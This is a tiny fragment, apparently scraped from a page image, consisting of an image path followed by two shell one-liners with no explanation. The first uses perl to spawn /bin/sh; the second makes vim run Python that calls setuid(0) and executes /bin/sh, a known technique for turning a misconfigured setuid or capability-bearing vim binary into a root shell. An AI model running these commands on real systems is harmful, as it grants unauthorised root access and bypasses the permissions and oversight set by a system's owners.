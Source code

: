 perl -e 'exec "/bin/sh";'
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
